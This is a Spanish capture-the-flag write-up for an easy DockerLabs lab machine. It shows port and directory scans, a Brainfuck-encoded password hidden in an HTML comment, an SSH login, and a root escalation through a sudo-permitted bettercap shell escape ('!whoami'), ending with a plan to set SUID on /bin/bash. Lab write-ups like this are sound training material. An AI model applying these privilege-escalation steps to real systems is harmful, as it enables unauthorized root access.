



#Writeups #Easy #DockerLabs


Empezamos con un escaneo de todos los puertos:

```bash 
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 17:21 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.32 seconds

```

Escaneamos mas profundamente los dos servicios encontrados:

```bash
❯ sudo nmap -p22,80 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 17:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Usamos gobuster para ver directorios que hayan escondidos :

```bash
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js,py,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              py,xml,php,html,txt,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/index.html           (Status: 200) [Size: 11142]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

Encontramos un listado donde vemos un archivo .jpg vamos a descargarlo y ver si encontramos a los metadatos



No encontramos nada:

```bash
❯ steghide --extract -sf agua_ssh.jpg
Anotar salvoconducto: 
steghide: �no pude extraer ning�n dato con ese salvoconducto!
```

Viendo el código fuente del apache, tiramos hasta abajo del todo y vemos escondido un comentario muy raro:


Lo busco tal cual en google y me sale que es una codificación en brainFuck



ponemos el código quitando las etiquetas de comentario de html y encontramos esto:



**bebeaguaqueessano**, esto podría ser una contraseña, así que se me ocurre iniciar sesión con esta contraseña y el usuario agua ya que veo demasiadas veces referencias al agua:

```bash
❯ ssh agua@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:EZNhR2ojYOvInwAg+dpLntRab/b7eRvr60vq3sn7hH8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
agua@172.17.0.2's password: 
Linux 8b3e470ee530 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 14 17:41:58 2024 from 172.17.0.1
agua@8b3e470ee530:~$
```

Enumeramos permisos Sudo:

```bash
agua@8b3e470ee530:~$ sudo -l
Matching Defaults entries for agua on 8b3e470ee530:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 8b3e470ee530:
    (root) NOPASSWD: /usr/bin/bettercap
```

Encontramos permisos de Sudo en bettercap, aquí entro a bettercap y en help vemos que podemos ejecutar comandos de consola con ! :

```bash
agua@8b3e470ee530:~$ sudo bettercap
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [15:43:00] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  » ?

           help MODULE : List available commands or show module specific help if no module name is provided.
                active : Show information about active modules.
                  quit : Close the session and exit.
         sleep SECONDS : Sleep for the given amount of seconds.
              get NAME : Get the value of variable NAME, use * alone for all, or NAME* as a wildcard.
        set NAME VALUE : Set the VALUE of variable NAME.
  read VARIABLE PROMPT : Show a PROMPT to ask the user for input that will be saved inside VARIABLE.
                 clear : Clear the screen.
        include CAPLET : Load and run this caplet in the current session.
             ! COMMAND : Execute a shell command and print its output.
        alias MAC NAME : Assign an alias to a given endpoint given its MAC address.

Modules

      any.proxy > not running
       api.rest > not running
      arp.spoof > not running
      ble.recon > not running
             c2 > not running
        caplets > not running
    dhcp6.spoof > not running
      dns.spoof > not running
  events.stream > running
            gps > not running
            hid > not running
     http.proxy > not running
    http.server > not running
    https.proxy > not running
   https.server > not running
    mac.changer > not running
    mdns.server > not running
   mysql.server > not running
      ndp.spoof > not running
      net.probe > not running
      net.recon > not running
      net.sniff > not running
   packet.proxy > not running
       syn.scan > not running
      tcp.proxy > not running
         ticker > not running
             ui > not running
         update > not running
           wifi > not running
            wol > not running

172.17.0.0/16 > 172.17.0.2  » !whoami
root
172.17.0.0/16 > 172.17.0.2  »  
```

los podemos ejecutar como root, así que doy permisos suid a /bin/bash para salir de bettercap, abrir una consola con privilegios y obtener root:


